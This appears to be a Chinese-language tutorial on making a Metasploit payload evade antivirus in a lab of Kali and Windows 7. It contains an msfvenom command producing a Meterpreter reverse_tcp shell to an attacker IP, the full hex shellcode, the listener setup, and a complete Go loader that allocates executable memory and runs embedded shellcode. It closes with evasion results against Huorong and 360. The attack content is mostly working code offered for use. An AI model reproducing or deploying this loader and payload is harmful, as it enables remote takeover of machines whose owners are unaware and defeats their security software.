






# 0x00 实验环境

> 攻击机：Kali 192.168.32.128
>
> 靶机：Win7 192.168.32.139


# 0x01 制作shellcode

Kali执行

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.128 lport=8010 -f c
```



 将shellcode处理成16进制，结果如下：



shellcode

`fc4883e4f0e8cc000000415141505251564831d265488b5260488b5218488b5220488b7250480fb74a4a4d31c94831c0ac3c617c022c2041c1c90d4101c1e2ed524151488b52208b423c4801d0668178180b020f85720000008b80880000004885c074674801d0508b4818448b40204901d0e35648ffc9418b34884801d64d31c94831c0ac41c1c90d4101c138e075f14c034c24084539d175d858448b40244901d066418b0c48448b401c4901d0418b04884801d0415841585e595a41584159415a4883ec204152ffe05841595a488b12e94bffffff5d49be7773325f3332000041564989e64881eca00100004989e549bc02001f4ac0a8208041544989e44c89f141ba4c772607ffd54c89ea68010100005941ba29806b00ffd56a0a415e50504d31c94d31c048ffc04889c248ffc04889c141baea0fdfe0ffd54889c76a1041584c89e24889f941ba99a57461ffd585c0740a49ffce75e5e8930000004883ec104889e24d31c96a0441584889f941ba02d9c85fffd583f8007e554883c4205e89f66a404159680010000041584889f24831c941ba58a453e5ffd54889c34989c74d31c94989f04889da4889f941ba02d9c85fffd583f8007d2858415759680040000041586a005a41ba0b2f0f30ffd5575941ba756e4d61ffd549ffcee93cffffff4801c34829c64885f675b441ffe7586a005949c7c2f0b5a256ffd5`

# 0x02 建立监听

在kali建立监听

```bash
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.32.128
lhost => 192.168.32.128
msf exploit(handler) > set lport 8010
lport => 8010
msf exploit(handler) > run
```

# 0x03 go语言加载shellcode免杀

go语言命令行加载shellcode 过杀软

## 核心代码



```go
package main

import (
	"syscall"
	"unsafe"
	"encoding/hex"
	"fmt"
)

func Run(sc []byte) {
	var kernel32 = syscall.MustLoadDLL("kernel32.dll")
	var ntdll = syscall.MustLoadDLL("ntdll.dll")
	var VirtualAlloc = kernel32.MustFindProc("VirtualAlloc")
	var RtlCopyMemory = ntdll.MustFindProc("RtlCopyMemory")

	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sc)), 0x1000|0x2000, 0x40)
	RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&sc[0])), uintptr(len(sc)))
	syscall.Syscall(addr, 0, 0, 0, 0)

}

func Run2(sc []byte) {

    f := func(){}  
    *(**uintptr)(unsafe.Pointer(&f)) = (*uintptr)(unsafe.Pointer(&sc))  
    var oldfperms2 uint32
    syscall.NewLazyDLL("kernel32.dll").NewProc("VirtualProtect").Call(  
        uintptr(unsafe.Pointer(*(**uintptr)(unsafe.Pointer(&sc)))), 
      	uintptr(uint(len(sc))),
        uintptr(uint32(0x40)), 
        uintptr(unsafe.Pointer(&oldfperms2)))
    f() 
}

func main(){

    v := "fc4883e4f0e8c8000000415141505251564831d265488b5260488b5218488b5220488b7250480fb74a4a4d31c94831c0ac3c617c022c2041c1c90d4101c1e2ed524151488b52208b423c4801d0668178180b0275728b80880000004885c074674801d0508b4818448b40204901d0e35648ffc9418b34884801d64d31c94831c0ac41c1c90d4101c138e075f14c034c24084539d175d858448b40244901d066418b0c48448b401c4901d0418b04884801d0415841585e595a41584159415a4883ec204152ffe05841595a488b12e94fffffff5d6a0049be77696e696e65740041564989e64c89f141ba4c772607ffd54831c94831d24d31c04d31c94150415041ba3a5679a7ffd5eb735a4889c141b8620400004d31c9415141516a03415141ba57899fc6ffd5eb595b4889c14831d24989d84d31c9526800024084525241baeb552e3bffd54889c64883c3506a0a5f4889f14889da49c7c0ffffffff4d31c9525241ba2d06187bffd585c00f859d01000048ffcf0f848c010000ebd3e9e4010000e8a2ffffff2f5952793900eb9b5de25f5e5f110c1b498f5584b8e2530804a38b5696df0795952a03eb1edffbd301223e5296811d2a49b2ac4778d6b1f1f6bd5d3d26c632058a7c1a57e90a909add0a70492266a200557365722d4167656e743a204d6f7a696c6c612f352e302028636f6d70617469626c653b204d53494520392e303b2057696e646f7773204e5420362e303b20574f5736343b2054726964656e742f352e303b206d736e204f7074696d697a65644945383b454e5553290d0a00c4f0e61fe1788402e61dab72d1f2756625c395f9d2f47a36864343f055a6d41b02d027a489100551cac24ee28588c230eea2930462ddd60e6253f69b29a8c896b4cbb163158c05a0b28bae259d473d9689071c7c87176b89f03334c87e17b0153f0e3ec14619a9b94eae55d9c3ac08ac6f8fceda944bde003fd8e27dea1df27e170242c4a18d767bd92b6934a8c21cb7d7ecca4b98395ad0a556c9a6040e86581e31a588537f1a1c18e38f3ea78521869ba193622f2f2114ccbe68c3efa057bb99b56f0041bef0b5a256ffd54831c9ba0000400041b80010000041b94000000041ba58a453e5ffd5489353534889e74889f14889da41b8002000004989f941ba129689e2ffd54883c42085c074b6668b074801c385c075d758585848050000000050c3e89ffdffff3139322e3136382e33322e3133300012345678"
    //v:="aaaaaa"
	a,err := hex.DecodeString(v)
    if err!= nil{
        fmt.Println(err)
    }
    //Run2(a)已不能免杀
	Run(a)
}
```


## 编译

build `mian.go`

生成mian.exe文件

# 0x04 测试免杀

放到已安装某绒和某60的win7虚机测试

这里某绒已是最新版



未报毒

 


 

360报毒



 

# 0x05 上线

执行bypass.exe



不过遗憾的是，在测试时候，已不能过360